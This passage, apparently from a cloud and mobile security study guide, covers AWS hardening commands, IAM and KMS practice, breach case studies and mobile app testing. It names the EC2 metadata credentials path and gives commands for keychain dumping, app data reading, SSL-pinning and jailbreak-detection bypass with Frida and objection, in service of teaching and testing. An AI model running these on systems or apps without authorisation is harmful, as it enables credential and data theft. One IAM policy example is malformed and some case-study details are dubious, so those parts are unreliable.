  --require-uppercase-characters --require-lowercase-characters \
  --require-numbers --require-symbols --max-password-age 90

# 2.1 — Enable CloudTrail in all regions
aws cloudtrail create-trail --name cis-cloudtrail --s3-bucket-name my-cis-logs \
  --is-multi-region-trail --enable-log-file-validation

# 3.1 — Enable CloudWatch for unauthorized API calls
aws logs put-metric-filter --log-group-name CloudTrail/DefaultLogGroup \
  --filter-name UnauthorizedAPICalls \
  --filter-pattern '{ ($.errorCode = "*UnauthorizedOperation") || ($.errorCode = "AccessDenied*") }'

# 4.1 — Restrict security group access
aws ec2 describe-security-groups --filters Name=ip-permission.cidr,Values='0.0.0.0/0'
```

**Automated CIS Compliance with AWS Config:**
```bash
# Enable AWS Config
aws configservice put-configuration-recorder --configuration-recorder name=default,roleARN=arn:aws:iam::ACCOUNT:role/aws-service-role/config.amazonaws.com/AWSServiceRoleForConfig

# Create a managed rule
aws configservice put-config-rule --config-rule '{
  "ConfigRuleName": "s3-bucket-public-read-prohibited",
  "Source": {
    "Owner": "AWS",
    "SourceIdentifier": "S3_BUCKET_PUBLIC_READ_PROHIBITED"
  },
  "Scope": {
    "ComplianceResourceTypes": ["AWS::S3::Bucket"]
  }
}'

# Get compliance summary
aws configservice get-compliance-summary --resource-types "AWS::S3::Bucket"
```

### CSPM (Cloud Security Posture Management)

**CSPM tools** continuously monitor cloud environments for misconfigurations, compliance violations, and security risks.

| Capability | Description | Example Tools |
|------------|-------------|---------------|
| Configuration auditing | Check against CIS benchmarks | AWS Config, Azure Policy, GCP CSPM |
| Compliance reporting | SOC 2, PCI DSS, HIPAA alignment | Prisma Cloud, Wiz, Orca |
| IaC scanning | Check Terraform/CloudFormation pre-deploy | Checkov, tfsec |
| Attack path analysis | Find exploitable misconfiguration chains | Wiz, Ermetic |
| Identity analytics | Detect over-permissive IAM roles | AWS IAM Access Analyzer |

### CWPP (Cloud Workload Protection Platform)

CWPP protects workloads (VMs, containers, serverless) with agent-based and agentless security.

| Capability | VMs | Containers | Serverless |
|------------|-----|-----------|------------|
| Anti-malware | Agent-based scanning | Image scanning | Not applicable |
| Intrusion detection | Host IDS/IPS | Runtime detection (Falco) | Function monitoring |
| File integrity | FIM agent | Read-only rootFS | Immutable functions |
| Vulnerability scanning | OS-level scanning | Image scanning | Dependency scanning |
| Network segmentation | Host firewall | Network policies | VPC config |

### CASB (Cloud Access Security Broker)

CASBs sit between users and cloud services to enforce security policies.

| CASB Mode | Description | Use Case |
|-----------|-------------|----------|
| API-based | Connects via cloud provider API | Shadow IT discovery |
| Forward Proxy | Intercepts user-to-cloud traffic | DLP for SaaS apps |
| Reverse Proxy | Sits in front of cloud apps | Zero-trust access |
| Log-based | Ingest cloud logs for analysis | Compliance monitoring |

### CIEM (Cloud Infrastructure Entitlement Management)

CIEM focuses on managing cloud IAM permissions at scale.

| CIEM Capability | Description | Example |
|----------------|-------------|---------|
| Permission analysis | Identify unused permissions | AWS IAM Access Advisor |
| Role analytics | Detect over-permissive roles | CloudSplainer |
| Cross-account access | Monitor role chaining paths | IAM Access Analyzer |
| Anomaly detection | Flag unusual API calls | UEBA on CloudTrail |

**A&D Table — Cloud Security Tools:**

| Tool Category | Advantages | Disadvantages |
|---------------|-----------|---------------|
| CSPM | Continuous compliance, automated remediation | Alert fatigue, limited runtime protection |
| CWPP | Deep workload protection, anti-malware | Agent management overhead |
| CASB | Shadow IT discovery, DLP for SaaS | SSL decryption concerns, latency |
| CIEM | IAM hygiene, unused permission cleanup | Requires cross-account visibility |

---

## Cloud IAM Best Practices

**Analogy:** A corporate office building. IAM is the badge system — who can enter which floors, which rooms, and at what times. Just because someone works on Floor 3 doesn't mean they can access the CEO's office on Floor 10.

### Principle #1: Least Privilege

**Numbered Steps — Implementing Least Privilege:**
1. Start with a deny-all policy (implicit deny).
2. Identify the minimum permissions required for each role.
3. Use AWS Managed Policies as starting points, then narrow to custom policies.
4. Prefer resource-level permissions over wildcard (`arn:aws:s3:::my-bucket/*` vs `*`).
5. Use conditions (SourceIp, MfaAuth, time-based) to further restrict.
6. Regularly review unused permissions with IAM Access Advisor.
7. Use Permission Boundaries for delegated administration.

```bash
# Least privilege S3 access policy
aws iam put-user-policy --user-name backup-service --policy-name s3-backup-policy --policy-document '{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["s3:PutObject", "s3:GetObject", "s3:ListBucket"],
    "Resource": [
      "arn:aws:s3:::my-company-backups",
      "arn:aws:s3:::my-company-backups/*"
    ],
    "Condition": {
      "IpAddress": {"aws:SourceIp": "10.0.0.0/16"},
      "Bool": {"aws:SecureTransport": "true"}
    }
  }]'
}
```

### IAM Policy Simulation

```bash
# Simulate IAM policy to verify intended access
aws iam simulate-custom-policy --policy-input-list '[
  {"Effect":"Allow","Action":"s3:GetObject","Resource":"arn:aws:s3:::my-bucket/*"},
  {"Effect":"Deny","Action":"s3:*","Resource":"*"}
]' --action-names "s3:GetObject" "s3:PutObject"

# Output:
# {
#   "EvaluationResults": [
#     {"EvalActionName":"s3:GetObject","EvalDecision":"allowed"},
#     {"EvalActionName":"s3:PutObject","EvalDecision":"explicitDeny"}
#   ]
# }

# Simulate what a specific user can do
aws iam simulate-principal-policy --policy-source-arn arn:aws:iam::ACCOUNT:user/bob \
  --action-names "ec2:RunInstances" "ec2:TerminateInstances" "iam:CreateUser"
```

### IAM Access Analyzer

```bash
# Enable IAM Access Analyzer
aws accessanalyzer create-analyzer --analyzer-name my-analyzer --type ACCOUNT

# List findings (resources shared outside the account)
aws accessanalyzer list-findings --analyzer-arn arn:aws:access-analyzer:us-east-1:ACCOUNT:analyzer/my-analyzer

# Sample findings:
# - S3 bucket policy grants access to "Principal": "*"
# - KMS key policy grants access to "AWS": "*"
# - IAM role can be assumed by a different account
```

**Dry Run — Access Analyzer Policy Check:**
```
Input: S3 bucket policy allowing public access
1. Access Analyzer scans bucket policies
2. Finds: Principal: "*" on bucket "customer-data"
3. Checks: Any condition restricting access? No
4. Determines: Publicly accessible
5. Creates finding: HIGH severity, "S3 bucket publicly accessible"
6. Sends to Security Hub
Output: Finding created with remediation steps
```

**Complexity Analysis — Cloud IAM:**
- **Policy evaluation (AWS):** O(s) where s = number of statements in policy. Deny wins over Allow. Explicit Deny beats Allow beats Implicit Deny.
- **Access Analyzer scan:** O(r + p) where r = number of resources, p = number of policies per resource
- **Policy simulation:** O(n * s) where n = actions simulated, s = statements evaluated

### Edge Cases — Cloud IAM

- **Resource-based policies (S3 bucket policy + IAM user policy):** Combined evaluation — granted if EITHER policy allows (AND there's no explicit Deny). Confusing behavior for new cloud engineers.
- **Cross-account roles:** Trust policy (in target account) + permissions policy. Both must be configured correctly. Sts:AssumeRole required.
- **Service control policies (SCP) in AWS Organizations:** SCPs are deny-by-default for member accounts. Even if IAM allows, SCP can block.
- **PassRole permission:** Required for EC2/ECS/Lambda to assume a role. If missing, resource can't start. If overly broad, privilege escalation risk.

---

## Cloud Data Protection

### KMS (Key Management Service)

**Real-World Analogy:** A master key cabinet in a hotel. Each room (data) has its own key. KMS is the front desk that securely manages all the keys. You ask the front desk to lock or unlock, but you never touch the master key itself.

**AWS KMS Key Types:**

| Key Type | Scope | Use Case | Rotation |
|----------|-------|----------|----------|
| AWS Managed | Service-specific (aws/s3, aws/rds) | Default encryption | Automatic (yearly) |
| Customer Managed (CMK) | Your own KMS keys | Full control, custom key policy | Optional (yearly) |
| Custom Key Store | CloudHSM-backed keys | Regulatory compliance | Manual |
| AWS Owned | Internal AWS keys | SSE-S3 | AWS-managed |

```bash
# Create a customer managed KMS key
aws kms create-key --description "Production encryption key" --key-usage ENCRYPT_DECRYPT --origin AWS_KMS
aws kms create-alias --alias-name alias/prod-key --target-key-id $(aws kms list-keys --query 'Keys[0].KeyId' --output text)

# Encrypt data with KMS
aws kms encrypt --key-id alias/prod-key --plaintext fileb://secret.txt --output text --query CiphertextBlob

# Decrypt data
aws kms decrypt --ciphertext-blob fileb://secret.txt.encrypted --output text --query Plaintext | base64 --decode

# Enable automatic key rotation
aws kms enable-key-rotation --key-id alias/prod-key
```

### HSM (Hardware Security Module)

**Analogy:** A bank vault within a bank vault. HSM is a tamper-resistant hardware appliance that stores keys. Even AWS employees cannot extract keys from an HSM. Used for FIPS 140-2 Level 3 compliance.

**Cloud HSM Options:**

| Provider | HSM Service | Certification | Use Case |
|----------|-------------|---------------|----------|
| AWS | CloudHSM | FIPS 140-2 Level 3 | PKI, code signing |
| AWS | AWS KMS Custom Key Store (CloudHSM) | FIPS 140-2 Level 3 | KMS keys backed by HSM |
| Azure | Azure Dedicated HSM | FIPS 140-2 Level 3, eIDAS | Payment processing |
| Azure | Azure Managed HSM | FIPS 140-2 Level 3, PCI-DSS | Key vault at scale |
| GCP | Cloud HSM | FIPS 140-2 Level 3 | CMEK with HSM backing |

### Envelope Encryption

**Concept:** Encrypt data with a Data Encryption Key (DEK). Encrypt the DEK with a Key Encryption Key (KEK). Store the encrypted DEK alongside the data.

**Analogy:** Putting a letter in a lockbox (DEK encrypts the data). Then putting the lockbox key in a safe (KEK encrypts the DEK). You carry the safe key with you, not the lockbox key.

```
Data Flow:
Plaintext -> Encrypt(Plaintext, DEK) -> Ciphertext
DEK -> Encrypt(DEK, KEK) -> Encrypted DEK
Ciphertext + Encrypted DEK -> Stored together

Decrypt Flow:
Encrypted DEK -> Decrypt(Encrypted DEK, KEK) -> DEK
Ciphertext -> Decrypt(Ciphertext, DEK) -> Plaintext
```

```javascript
// AWS SDK - Envelope Encryption with KMS
const AWS = require('aws-sdk');
const kms = new AWS.KMS();

async function envelopeEncrypt(plaintext, keyId) {
    // Step 1: Generate a data key (DEK)
    const dataKey = await kms.generateDataKey({
        KeyId: keyId,
        KeySpec: 'AES_256'
    }).promise();
    // dataKey.Plaintext = DEK (plaintext - use, then discard)
    // dataKey.CiphertextBlob = Encrypted DEK (store safely)

    // Step 2: Encrypt data with DEK (AES-256-GCM)
    const encryptedData = encryptAes256Gcm(plaintext, dataKey.Plaintext);

    // Step 3: Return encrypted data + encrypted DEK
    return {
        encryptedData: encryptedData,
        encryptedKey: dataKey.CiphertextBlob,
        iv: encryptedData.iv,
        tag: encryptedData.tag
    };
}

async function envelopeDecrypt(encryptedData, encryptedKey, iv, tag) {
    // Step 1: Decrypt the DEK using KMS
    const dataKey = await kms.decrypt({
        CiphertextBlob: encryptedKey
    }).promise();

    // Step 2: Decrypt data with DEK
    return decryptAes256Gcm(encryptedData, dataKey.Plaintext, iv, tag);
}
```

**Complexity Analysis — Envelope Encryption:**
- **Encryption setup:** O(1) — one KMS API call + one AES operation
- **Decryption setup:** O(1) — one KMS API call + one AES operation
- **Bulk data encryption:** O(n) where n = data size
- **KEK rotation:** O(1) — re-encrypt DEK with new KEK

### A&D Table — Cloud Data Protection

| Approach | Advantages | Disadvantages |
|----------|-----------|---------------|
| SSE-S3 (AES-256) | Free, automatic | No key control |
| SSE-KMS | Key rotation, audit, separation | Cost per KMS API call |
| SSE-C (Customer key) | Full key control | Must manage key lifecycle |
| Client-side encryption | End-to-end security | Key management complexity |
| HSM | Tamper-resistant, compliance | High cost, slower operations |

### Edge Cases — Cloud Data Protection

- **KMS key deletion:** Keys have a 7-30 day waiting period. Once deleted, all data encrypted with that key is permanently inaccessible.
- **Cross-region KMS:** KMS keys are region-specific. To encrypt data in multiple regions, use multi-Region keys or re-encrypt with each region's key.
- **Key policy vs IAM policy:** Key policies directly attach to KMS keys. IAM policies control which users can call KMS APIs. Both can grant access — the more permissive wins (unless explicit Deny).
- **Envelope encryption performance:** For small payloads (<1KB), direct KMS encrypt is fine. For large files (>1MB), always use envelope encryption.

---

## Case Study 1: Capital One 2019 — AWS SSRF Breach

**Overview:** A former AWS employee exploited a Server-Side Request Forgery (SSRF) vulnerability in Capital One's WAF configuration to steal data of over 100 million customers.

### Attack Timeline

| Phase | What Happened | Attack Technique |
|-------|--------------|------------------|
| Reconnaissance | Attacker scanned Capital One's public-facing IPs | Port scanning |
| WAF bypass | Attacker discovered ModSecurity WAF was configured to block SSRF attempts — but the WAF itself had a metadata endpoint that could be queried | SSRF via WAF metadata |
| Metadata exfiltration | Attacker queried the AWS EC2 metadata endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials/` | EC2 IMDSv1 |
| Role credentials stolen | Retrieved the IAM role credentials for the WAF server role | IAM credential theft |
| S3 enumeration | Used compromised credentials to list S3 buckets and retrieve data | S3 bucket enumeration |
| Data extraction | Downloaded 700+ S3 buckets containing customer application data | Data exfiltration |

### Root Cause Analysis

| Root Cause | Impact | Fix Applied |
|------------|--------|-------------|
| ModSecurity WAF vulnerable to SSRF | WAF bypass | WAF replaced with CloudFront + AWS WAF |
| IMDSv1 enabled on EC2 instances | Metadata accessible without token | Enforce IMDSv2 (requires session token) |
| Overly permissive IAM role for WAF server | Read access to all S3 buckets | Least privilege IAM, S3 bucket policies |
| No S3 bucket access logging | Delayed detection | Enable S3 server access logs + CloudTrail |
| No SCP restricting resource access | Unlimited S3 enumeration | SCP to restrict actions to specific account |

### Mitigation — EC2 IMDSv2 Hardening

```bash
# Enforce IMDSv2 (requires token for metadata access)
aws ec2 modify-instance-metadata-options --instance-id i-12345 \
  --http-tokens required \
  --http-put-response-hop-limit 1 \
  --http-endpoint enabled

# Block metadata access from containers/pods
aws ec2 modify-instance-metadata-options --instance-id i-12345 \
  --http-put-response-hop-limit 1

# (hop-limit=1 means only the EC2 instance itself can access metadata)
```

---

## Case Study 2: CodeCov 2021 — Container Misconfiguration

**Overview:** Attackers exploited a misconfigured Docker image build process in CodeCov's CI/CD pipeline to gain access to environment variables containing credentials.

### Attack Flow

1. Attacker identified that CodeCov's Docker image build process leaked environment variables in the image layers.
2. The `docker save` command preserved environment variable history in intermediate image layers.
3. Attacker pulled the public Docker image and inspected layers:
   ```bash
   docker pull codecov/uploader:latest
   docker history --no-trunc codecov/uploader:latest
   ```
4. Extracted AWS credentials, GitHub tokens, and Slack webhooks from image layers.
5. Used stolen credentials to compromise CodeCov's GitHub repositories and inject malicious code.

### Root Causes

| Issue | Fix |
|-------|-----|
| Secrets passed as build args not cleaned | Use `--build-arg` with multi-stage builds |
| Docker image layers leaked history | Squash layers, use multi-stage, never store secrets |
| CI/CD credentials in plaintext env vars | Use ephemeral credentials (OIDC, STS) |
| Public Docker image | Private registry with pull secrets |

### Secure Docker Build Pipeline

```dockerfile
# BAD: Secrets leak in layer history
FROM node:18
ARG AWS_SECRET_ACCESS_KEY
ENV AWS_SECRET_ACCESS_KEY=${AWS_SECRET_ACCESS_KEY}
RUN aws s3 cp s3://private-bucket/data.json /app/data.json

# GOOD: Multi-stage, no secrets in final image
FROM node:18 AS builder
ARG AWS_ACCESS_KEY_ID
ARG AWS_SECRET_ACCESS_KEY
RUN aws s3 cp s3://private-bucket/data.json /app/data.json

FROM node:18-slim
COPY --from=builder /app/data.json /app/data.json
# Secret is only in the builder stage, not in the final image
```

---

## Case Study 3: Kaseya VSA 2021 — REvil Ransomware via VDI/Supply Chain

**Overview:** REvil ransomware gang exploited a zero-day in Kaseya VSA (Virtual System Administrator), a remote monitoring and management (RMM) tool used by MSPs. The attack propagated through Kaseya's cloud infrastructure to compromise 60 MSPs and 1,500+ downstream businesses.

### Attack Timeline

| Phase | Detail | Technique |
|-------|--------|-----------|
| Vulnerability discovery | Attackers found an authentication bypass in Kaseya VSA web interface | CVE-2021-30116 |
| Initial access | Bypassed authentication, gained admin access to VSA on-prem instance | Authentication bypass |
| Privilege escalation | Escalated to VSA system admin, disabled logging | Log tampering |
| Malicious update | Pushed a fake software update through VSA's legitimate update mechanism | Software supply chain |
| Propagation | VSA pushed REvil encryptor to all managed endpoints | Ransomware deployment |
| Escalation | Decrypted REvil binary on 1,500+ businesses | Supply chain ransomware |

### Key Lessons

| Lesson | Implementation |
|--------|----------------|
| Supply chain risk | Audit all third-party software update mechanisms |
| RMM tool security | Apply network segmentation, restrict RMM agent access |
| Signed update verification | Validate update signatures and hashes before applying |
| Incident response for MSPs | Have playbooks for supply chain + ransomware combined |

---

## Case Study 4: Pegasus (NSO Group) — FORCEDENTRY

**Overview:** Pegasus spyware from NSO Group used a zero-click exploit (FORCEDENTRY) targeting iMessage on iOS. No user interaction required — the target simply received an iMessage.

### Technical Breakdown

| Component | Detail |
|-----------|--------|
| Vulnerability | CVE-2021-30860 — integer overflow in CoreGraphics PDF parser |
| Delivery | iMessage automatically rendered the PDF attachment |
| Exploitation | Heap corruption -> arbitrary code execution in image processing daemon |
| Privilege escalation | Kernel exploit (CVE-2021-1782) to escape sandbox |
| Persistence | Pegasus installed as a hidden process with rootkit capabilities |
| Data exfiltration | Microphone, camera, GPS, iMessage, WhatsApp, Telegram, Signal |

### FORCEDENTRY Exploit Chain

```
iMessage arrives -> CoreGraphics processes PDF ->
Integer overflow -> Heap overflow ->
ROP chain -> Code execution (sandboxed) ->
Kernel exploit (CVE-2021-1782) ->
Root privileges -> Install Pegasus ->
Hide process (rootkit) -> Exfiltrate data
```

### iOS Security Mitigations

| Mitigation | What It Prevents | How Pegasus Bypassed It |
|------------|------------------|------------------------|
| Sandbox | Limited app capabilities | Kernel exploit escaped sandbox |
| Code signing | Only signed code runs | Exploited signed system daemon |
| ASLR | Random memory layout | Information leak via side-channel |
| PAC (Pointer Auth) | Function pointer integrity | KTRR bypass at kernel level |
| BlastDoor | iMessage parsing isolation | Not yet implemented in iOS 14.6 |
| JIT hardening | Code execution prevention | Used signed JIT regions |

### Comparison: iOS vs Android Security Models

| Security Feature | iOS | Android |
|------------------|-----|---------|
| Kernel | XNU (Darwin) | Linux (with Android patches) |
| Mandatory Access Control | Sandbox (TrustedBSD) | SELinux (enforcing) |
| Code signing | Mandatory for all apps | Optional for sideloading |
| App store | Single: App Store | Multiple: Play Store + others |
| App sandbox | Per-app container (container-based) | Per-app UID (Linux user-based) |
| Permissions | Runtime permission prompts | Runtime permission prompts |
| Encryption | Hardware-backed (Secure Enclave) | Hardware-backed (TEE, Titan M) |
| Root/Jailbreak detection | Jailbreak detection in apps | SafetyNet/Play Integrity |
| Update distribution | Direct from Apple | OEM + carrier dependent |

---

## Mobile Security

### Android Security Model

**Analogy:** A building with individual apartments. Each app is an apartment with its own lock (per-app UID). Android SELinux is the building security guard — even if a tenant leaves their door open, the guard prevents them from entering other apartments.

**Android Security Layers:**
1. **Linux Kernel:** Process isolation, UID/GID per app.
2. **SELinux (Enforcing):** MAC (Mandatory Access Control) — defines what each process can access.
3. **Application Sandbox:** Each app runs as a unique Linux user. Apps can't access other apps' files.
4. **Permissions System:** Users grant/deny runtime permissions.
5. **Keystore:** Hardware-backed cryptographic key storage (TEE).
6. **Verified Boot:** Chain of trust from bootloader to OS.
7. **Play Integrity API:** Checks device integrity (SafetyNet successor).

**Numbered Steps — Android App Sandbox:**
1. App is installed. Android assigns a unique Linux UID (e.g., u0_a123).
2. App's files are created in `/data/data/com.example.app/`, owned by that UID.
3. App runs in a Dalvik/ART process with that UID as the Linux user.
4. SELinux context `u:r:untrusted_app:s0:c123,c256` is applied — defines allowed operations.
5. Each file access is checked: Linux DAC (UID/GID) first, then SELinux MAC.
6. App requests permissions (e.g., CAMERA) — user grants at runtime.
7. App accesses camera hardware through Android's permission framework + SELinux policy.
8. If app tries to access another app's files, Linux DAC denies it (different UID).

```bash
# Android - View app sandbox isolation (via adb shell)
adb shell ps | grep com.example.app
# u0_a123 - unique UID per app

# Check SELinux context
adb shell ps -Z | grep com.example.app
# u:r:untrusted_app:s0:c123,c456,c512,c768 - SELinux context

# View app permissions
adb shell dumpsys package com.example.app | grep permissions
```

### iOS Security Model

**Analogy:** A gated community with a strict HOA (hardware-enforced security). The Secure Enclave is a separate security system for each house's safe. iMessage BlastDoor is a mailroom that inspects packages before delivery.

**iOS Security Layers:**
1. **Secure Enclave (SEP):** Dedicated hardware for cryptographic operations. Isolated from main CPU.
2. **Sandbox (container-based):** Per-app container with unique home directory and sandbox profile.
3. **Entitlements:** Developer-signed capabilities (signing, push, iCloud, Wallet).
4. **Code signing:** Every binary must be signed by Apple or a registered developer certificate.
5. **Hardware-backed encryption:** AES engine for file encryption (per-file key wrapped by class key).
6. **Pointer Authentication Codes (PAC):** Prevents function pointer tampering.
7. **BlastDoor:** iMessage processing in a sandboxed daemon (added iOS 14).

**Entitlements Example:**
```xml
<!-- iOS entitlements - capabilities the app requests -->
<key>com.apple.developer.associated-domains</key>
<array>
    <string>webcredentials:example.com</string>
</array>
<key>com.apple.developer.applesignin</key>
<true/>
<key>aps-environment</key>
<string>production</string>
```

### A&D Table — Android vs iOS Security

| Aspect | Android | iOS |
|--------|---------|-----|
| Openness | Multiple app stores, side-loading | Single App Store, no official sideloading |
| Permission model | Granular runtime permissions | Granular, short-lived permission timer |
| Hardware security | TEE (Trusty, Titan M) | Secure Enclave (dedicated CPU) |
| Patch updates | OEM-dependent, slow | Apple-controlled, fast |
| Malware risk | Higher (side-loading, third-party stores) | Lower (no sideloading, sandbox) |
| Enterprise management | Android Enterprise, Work Profile | MDM, User Enrollment (managed Apple IDs) |
| Jailbreak/Root | Root access via bootloader unlock | Jailbreak via software exploit only |

### Edge Cases — Mobile Security

- **iOS 17+ - Lockdown Mode:** Applies maximum security settings. Disables most web technologies, limits messaging, blocks USB accessories.
- **Android - Work Profile:** Creates a separate profile for work apps. Profile-level encryption isolates work data.
- **App Cloning (Xiaomi, Samsung):** Some Android manufacturers allow running dual instances of apps. Can bypass sandbox isolation if not properly implemented.
- **iOS - App Store Review:** Apple reviews all apps before publication. Malware can pass review and activate later (time-bomb malware).

---

## OWASP Mobile Top 10

| Rank | Vulnerability | Description | Impact |
|------|--------------|-------------|--------|
| M1 | Improper Credential Usage | Hardcoded keys, reused credentials | Account takeover |
| M2 | Inadequate Supply Chain Security | Vulnerable libraries, malicious SDKs | Data exfiltration through dependencies |
| M3 | Insecure Authentication/Authorization | Weak biometric, no MFA | Unauthorized access |
| M4 | Insufficient Input/Output Validation | Injection attacks (SQL, XSS) | Data leakage, code execution |
| M5 | Insecure Communication | Cleartext traffic, weak TLS | MITM, credential interception |
| M6 | Inadequate Privacy Controls | Excessive data collection | Regulatory non-compliance (GDPR, CCPA) |
| M7 | Insecure Data Storage | Plaintext files, unencrypted DB | Data theft from lost/stolen device |
| M8 | Insecure Data Handling in Background | Data in clipboard, app switcher | Data leakage via OS features |
| M9 | Insecure Authentication Architecture | Weak session management | Session hijacking, replay attacks |
| M10 | Lack of Binary Protections | No obfuscation, no tamper detection | Repackaging, reverse engineering |

### M1 — Improper Credential Usage

```bash
# Android - Detect hardcoded credentials (using jadx decompilation)
jadx -d output_dir app.apk
grep -r "password|secret|apikey" output_dir/ --include="*.java"

# Found: String apiKey = "sk_live_abcdef123456";
# This is M1 violation - production credentials in source code
```

### M5 — Insecure Communication Detection

```bash
# Intercept mobile app traffic with Burp Suite
# Step 1: Configure Burp proxy (127.0.0.1:8080)
# Step 2: Install Burp CA certificate on device/emulator
# Step 3: Set device proxy to Burp
adb shell settings put global http_proxy 192.168.1.100:8080

# Step 4: Run app and observe HTTP traffic
# Look for:
# - HTTP (not HTTPS) connections
# - Missing certificate pinning
# - Hostname verification disabled
# - Weak cipher suites

# Check for SSL pinning bypass with objection (iOS)
objection -g com.example.app explore
ios sslpinning disable
```

### M7 — Insecure Data Storage Detection

```bash
# Android - Check for insecure data storage
adb shell
run-as com.example.app
cat /data/data/com.example.app/shared_prefs/*.xml
# Look for: passwords, tokens, PII stored in cleartext

# iOS - Check for insecure data storage
objection -g com.example.app explore
env
ios nsuserdefaults get

# Check for SQLite databases with unencrypted sensitive data
adb shell
find /data/data/com.example.app -name "*.db" -exec sqlite3 {} .dump \;
# Look for: credit card numbers, personal data without encryption
```

### M2 — Supply Chain Security

```bash
# Scan Android app dependencies for known vulnerabilities
# Using OWASP Dependency-Check
dependency-check --project "Mobile App" --scan app.apk --format HTML

# Check for known malicious SDKs
unzip -l app.apk | grep -E "\.jar|\.aar"
```

---

## Mobile App Security Testing

### Android APK Decompilation with jadx

```bash
# Step 1: Decompile APK to Java source
jadx -d decompiled_app app.apk
# Output: decompiled_app/sources/com/example/app/*.java

# Step 2: Search for security-sensitive code
# Hardcoded secrets
grep -r "apiKey|secret|password|token" decompiled_app/

# Insecure WebView
grep -r "setJavaScriptEnabled|loadUrl|addJavascriptInterface" decompiled_app/

# Root detection bypass
grep -r "su|Superuser|magisk|rootbeer" decompiled_app/

# Step 3: Check AndroidManifest.xml
aapt dump badging app.apk | grep -E "uses-permission|android:debuggable|exported"
```

**Dry Run — APK Security Analysis:**
```
Input: app.apk (Android banking app)
1. Decompile: jadx -d out app.apk -> 45 Java source files
2. Check manifest: android:allowBackup="true", permissions: INTERNET, READ_SMS, CAMERA
3. Search for secrets: Found "apiKey=AIzaSy..." in source code -> M1 violation
4. Search for insecure storage: SharedPreferences storing access token -> M7 violation
5. Search for cleartext traffic: android:usesCleartextTraffic="true" -> M5 violation
6. Check WebView: setJavaScriptEnabled(true), no XSS protection -> injection risk
7. Check root detection: No RootBeer or Safetynet checks found -> tampering risk
Output: 5 security issues identified (2 HIGH, 2 MEDIUM, 1 LOW)
```

### iOS IPA Analysis with objection

```bash
# Prerequisites: jailbroken iOS device or iOS runtime environment
# Install objection
pip3 install objection

# Basic IPA analysis
objection explore --startup-command "env" --gadget com.example.app

# Command sequence within objection:
ios nsuserdefaults get
ios keychain dump
ios cookies get
ios info plist

# Check for insecure data storage
ios nsuserdefaults get
# Look for: plaintext passwords, tokens

# Check for SSL pinning
ios sslpinning disable  # Only for testing, not in production

# Dump keychain
ios keychain dump --json keychain_dump.json

# Check for jailbreak detection bypasses
ios jailbreak disable
```

### Mobile App Traffic Interception with Burp Suite

**Step-by-Step Setup:**
1. **Burp Suite Configuration:**
   ```bash
   # Start Burp on 0.0.0.0:8080 (bind to all interfaces for mobile testing)
   java -jar burpsuite.jar
   # Proxy -> Options -> Bind to 0.0.0.0:8080
   ```

2. **Android Emulator Proxy Setup:**
   ```bash
   # Set proxy on emulator
   adb shell settings put global http_proxy 10.0.2.2:8080
   # (10.0.2.2 = host machine from Android emulator)

   # Install Burp CA certificate
   adb push burp-ca.der /sdcard/Download/
   # Settings -> Security -> Install from storage
   ```

3. **iOS Simulator Proxy Setup:**
   ```bash
   # Set proxy on iOS simulator
   xcrun simctl spawn booted bash -c "networksetup -setwebproxy Wi-Fi 10.0.2.2 8080"

   # Install Burp CA certificate
   # Open Safari -> http://burpsuite -> download cacert.der
   # Settings -> General -> Profile -> Install
   ```

4. **Traffic Analysis:**
   ```bash
   # In Burp Suite -> HTTP history:
   # Look for:
   # - Unencrypted HTTP traffic
   # - API keys in query parameters
   # - PII in request/response bodies
   # - Missing security headers
   # - Insecure data transmission
   ```

**Detection — Certificate Pinning Bypass:**
```bash
# Android - Frida SSL pinning bypass
frida -U -f com.example.app -l ssl-pinning-bypass.js --no-pause

# iOS - Frida SSL pinning bypass
frida -U -f com.example.app -l ios-ssl-bypass.js --no-pause

# objection SSL pinning disable
objection -g com.example.app explore
ios sslpinning disable
```

---

## Mobile Device Management (MDM) & BYOD

### MDM Architecture

**Analogy:** A company-issued car. The company decides what maintenance is done, where it can be parked, and what routes are allowed. The employee drives it for work but can also use it for limited personal trips.

**MDM Capabilities:**

| Capability | Description | Implementation |
|------------|-------------|----------------|
| Device enrollment | Provision devices to management | Apple DEP, Android Enterprise, Windows Autopilot |
| Policy enforcement | Enforce encryption, password policy | Configuration profiles (iOS), Device Policy (Android) |
| Remote wipe | Erase device data | Factory reset via MDM push |
| App management | Install/remove enterprise apps | Managed Google Play, Apple VPP |
| Compliance check | Verify device security posture | Check jailbreak, encryption, OS version |
| Location tracking | Find lost devices | Managed via policy - privacy concerns |

**MDM Enrollment Flow (iOS):**
```
1. Device powered on -> Setup Assistant starts
2. Device contacts Apple DEP server
3. DEP server identifies device (serial number in MDM)
4. Device redirected to MDM server URL
5. MDM pushes configuration profile to device
6. Profile installs: restrictions, certificates, WiFi
7. MDM confirms enrollment -> supervised mode
8. MDM pushes apps from Apple VPP
9. Compliance policies enforced
```

### BYOD (Bring Your Own Device)

**Analogy:** An employee bringing their personal car to deliver company packages. The company installs a GPS tracker (MDM agent) but only activates it during work hours. The rest of the time, the car is private.

**BYOD Security Models:**

| Model | Description | Privacy Impact | Corporate Data Protection |
|-------|-------------|----------------|---------------------------|
| Device-level MDM | Full device management | Low (company can wipe entire device) | High |
| Work Profile (Android) | Separate managed profile | High (company can only wipe work profile) | High |
| User Enrollment (iOS) | Managed Apple ID + separate volume | High (managed volume only) | Medium |
| MAM-only | Manage apps, not device | Very high (no device access) | Medium |
| VDI/Container | Virtual desktop for work | Very high (no local data) | Very high |

**Android Work Profile Setup:**
```bash
# Enterprise Mobility Management policies
# Create work profile - separates personal and work apps
adb shell am start -a android.action.DPM_CMD -e command create_work_profile

# Scope: Work profile data is encrypted separately
# Company can wipe work profile without touching personal data
# Work apps are managed by MDM; personal apps remain private
```

**iOS User Enrollment:**
```bash
# iOS User Enrollment (iOS 13+)
# Uses Managed Apple ID
# Creates separate APFS volume for work data
# Company can:
#   - Wipe managed volume (personal data unaffected)
#   - Install/manage work apps
#   - Enforce passcode policy
# Company CANNOT:
#   - Access personal apps/data
#   - Read iMessage, personal mail
#   - View device location (supervised only)
```

### A&D Table — BYOD Models

| Model | User Privacy | Corporate Security | Complexity |
|-------|-------------|-------------------|------------|
| MDM (Corporate-owned) | Low | High | Low |
| Android Work Profile | High | High | Medium |
| iOS User Enrollment | High | Medium | Low |
| MAM-only | Very High | Medium | Low |
| VDI | Very High | Very High | High |

---

## Mobile Malware Analysis

### Types of Mobile Malware

| Type | Description | Example | Distribution |
|------|-------------|---------|--------------|
